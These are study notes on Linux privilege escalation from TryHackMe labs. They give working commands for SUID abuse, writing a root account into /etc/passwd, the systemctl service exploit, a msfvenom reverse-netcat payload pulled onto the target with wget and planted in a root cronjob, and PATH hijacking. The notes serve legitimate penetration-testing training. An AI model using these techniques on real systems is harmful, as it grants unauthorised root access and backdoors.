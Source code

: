 ## Privilege Escalation - Overview

-----

> Horizontal and vertical privilege escalation:
 - horizontal privilege escalation - access pivot from users within the same permission scope
 - vertical privilege escalation - access pivot from user with lower permissions to user with higher permissions

Sometimes horizontal privilege escalation is necessary before executing vertical escalation. \
For example, if user1 (your foothold) has no misconfigurations or exploitable escalations to obtain root or another more highly privileged user, then it might be necessary to horizontally escalate to user2, who happens to have an exploitable binary with a SUID bit or a cronjob running with root permissions (or any other potential method). 

Ie. low privilege 1 -> low privilege 2 -> high privilege

>>## Useful Tools/Resources
> ### Informational Resources
> - [PayloadsAllTheThings - Privilege Escalation Overview](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#tools)
> - [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)    
> - [ A guide to Linux Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation)
>### PrivEsc Automation, Scripts, and General Resources
> - [LinEnum](https://github.com/rebootuser/LinEnum) : Enumeration of linux systems for common privesc misconfigurations and potential exploits
> - LinPEAS   
> - LinuxSmartEnumeration   
> - BeRoot  
 > - [GTFOBins](https://gtfobins.github.io/) : Extremely useful collection of common Linux binaries and example privesc exploitation methods   


----- 
### Commands Relevant to PrivEsc
```
ls -lah

find . -type f -perm /4000 or /2000

sudo -l

vim --> :!sh
```
---
## SUID/SGID:
```
find . -user root -perm /x000
```

- 4000 is the permission flag for SUID
- 2000 is the permission flag for SGID
- ---

## Writable /etc/passwd:
    
Format of etc/passwd:	 
```
user:password_hash:UID:GID:root:/root:/bin/bash \
```

Since the passwords are not stored in plaintext, they first need to be hashed. 
This can be done simply by using openssl.

```
openssl passwd -1 -salt [thesalt] [thepassword]
```

Now, to tie it all together, the line to write into /etc/passwd, with user "new" and password "123" would be:

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```
---


## systemctl
Systemctl is a part of the linux filesystem which interacts with systemd and is responsible for services. Systemctl is sometimes misconfigured, and can be exploited if it has SUID or SUDO privileges. 

The systemctl privesc route is seen in the THM machine, "vulniversity"; after getting a webshell, the task is to privesc into root. 

Tying in concepts from above, the first thing to do is to find what potential misconfigurations or potentially exploitable binaries exist.
```
find . -user root -perm /4000
```
In this case, the results show that the systemctl binary has the s bit. 
Then, searching systemctl on GTFOBins reveals an example payload/exploit:
```
TF=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF

```
Basically, this creates a temporary file, TF, in the temp directory, a directory which we have write permissions as a low-privileged user.
After initializing the temporary service file, the exploit uses the echo command to write the service functions, line by line,
avoiding the need to use touch or other means , which we do not have permissions for. 

```bash
./systemctl link $TF
./systemctl enable --now $TF
```

After writing the new service configuration file, the service must then be linked and enabled via the vulnerable systemctl binary.

In this case, however, the configuration must be tailored for the specific task. The example provides a command to write out the permissions
via the id command to a file in the tmp directory, but the task is to read the root flag in the root directory. 

There are multiple avenues of attack that can be used to accomplish this, and in the real world executing a reverse shell would
and using a new netcat listener would likely be the most effective, however that is not necessary in this case.

To stay within the scope of the task and be precise, I simply created a command that would cp the root flag to a new file in the tmp directory.

```
ExecStart=/bin/sh -c "cp /root/root.txt /tmp/rootflag.txt"
```
While this use case is specific, the concept can be applied to complete most tasks if faced with a systemctl privesc route. 

----

## Crontab Exploitation
Cronjobs are automated tasks within a Linux system. If a cronjob is run with root privileges, it is possible to leverage these permissions by writing to the cronjob, and thus having that added command executed as root, the next time the cronjob runs. 

```
cat /etc/crontab
```
Format:

```
#  m   h dom mon dow user  command
```

Exploiting a crontab vulnerability is similar in concept to the systemctl privesc method.

This method is used when a vulnerable cronjob is found -- this may mean that a cronjob is configured to run a
process/command with root privileges while the relevant user can write to the cronjob. 
Using echo, a payload or command can be written to the cronjob, and when it is executed, the payload will be executed
with root privileges. 

For example, if a cronjob called "scanner" is found to be running every hour and with root privileges,
an attacker can write a custom command or create a payload using msfvenom, and then write that payload to the cronjob:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[ip] lport=[port] R > payload_name

```
The payload is created on the local machine, but it needs to get onto the target machine. This can be done multiple ways,
but a simple method is to create a local webserver:

```bash
python3 -m http.server 80

```
and then wget the payload onto the target machine, using the low-privilege shell that was obtained earlier.

```bash
cd /tmp

wget http://[ip]/payload_name
```
Finally, echo can be used to write the payload into the cronjob:
```
echo payload > /Documents/scanner.sh
```
Once the cronjob is initialized, the payload will be executed, and we will have a root shell. Just like with the systemctl
privesc above, this can be tailored to the needs of the task. If precision and scope is necessary, 
a payload can be created that will do just the required task and nothing more, for example, write a backdoor into the system
for later use. 


----
## PATH Variable
```
echo $PATH
```
Privilege escalation via exploiting the path variable happens when an attacker is able to create an "evil twin" of the actual binary,
and redirect that binary to the new, imitation one, with malicious code. 

In the TryHackMe Linux Privilege Escalation module, the vulnerable machine has a misconfiguration, where a script found on the users
desktop is actually executing the 'ls' command. 

Now that a target script is identified in which can be potentially imitated, the next step is to find a writable directory where we can create the imitation
executable with our payload. 


We can try /tmp, or simply search:
```bash
find / -writable -type d 

```
In this case, /tmp will be used, so after cd to /tmp, echo will once again be used to create the imitation binary/payload.
(and of course, allow execution)
```bash
echo "/bin/bash" > ls

chmod +x ls
```
Now that the imitation payload is created, which contains the command to initilize a bash shell, the payload must
be exported to the path variable. 
```bash
export PATH=/tmp:$PATH
```
To test if the exploit has worked, the targeted command can be run; in this case, 'ls' will no longer return the directory contents (/bin/ls will, if needed).

Finally, return to the original target script, and execute it. This will now execute the imitation payload and 
open a root shell. 

---
